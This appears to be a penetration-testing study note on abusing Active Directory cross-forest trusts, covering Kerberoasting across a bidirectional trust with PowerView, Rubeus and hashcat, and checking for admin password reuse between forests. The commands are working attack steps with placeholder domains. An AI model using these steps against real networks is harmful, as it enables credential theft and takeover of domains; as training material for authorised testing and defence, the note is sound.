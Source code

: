 # 1- Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

**Bidirectional:** Parent-child, Cross-link, ==Tree-root, Forest==
## 1- Cross-Forest Kerberoasting
**Kerberos attacks like Kerberoasting and ASREPRoasting can work across trusts, depending on trust direction.** If you’re in a domain with inbound or bidirectional domain/forest trusts, you may target other domains. Even if you can’t escalate locally, you can request tickets, crack hashes, and compromise accounts (e.g., Domain or Enterprise Admins) that have privileges in multiple domains.
We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.
#### Enumerating Accounts for Associated SPNs Using Get-DomainUser
```powershell
import-module powerview.sp1
 Get-DomainUser -SPN -Domain <DOMAIN-2.LOCAL> | select SamAccountName
    # <USER-SRV>
```
We see that there is one account with an SPN in the target domain. 
#### Enumerating the mssqlsvc Account
```powershell
import-module powerview.sp1
Get-DomainUser -Domain <DOMAIN-2.LOCAL> -Identity <USER-SRV> |select samaccountname,memberof
   # CN=Domain Admins,CN=Users,DC= <DOMAIN-2.LOCAL>
```
[+] . A quick check shows that this account is a member of the ==Domain Admins group== in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.
#### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag
Let's perform a Kerberoasting attack across the trust using Rubeus. We run the tool as we did in the Kerberoasting section, but we include the /domain: flag and specify the target domain.
```powershell
.\Rubeus.exe kerberoast /domain:<DOMAIN-2.LOCAL>  /user:<USER-SRV> /nowrap
   # [*] Hash : <hash>
```

We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.
#### Cracking the Hash with Hashcat

```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt  
```

## 2-Admin Password Re-Use & Group Membership

bidirectional forest trust managed by admins from the same company:
**Admin Password Re-Use:**
-  If ==Domain A== is compromised and we obtain: ==Clear Text Password== or  ==NT hashes== of **Administrator** or **Enterprise/Domain Admins** accounts (ex. `adm_bob.smith`). and ==Domain B== has a highly privileged account with the same name(ex. `bsmith_admim`) ==worth checking for password reuse across the two forests==
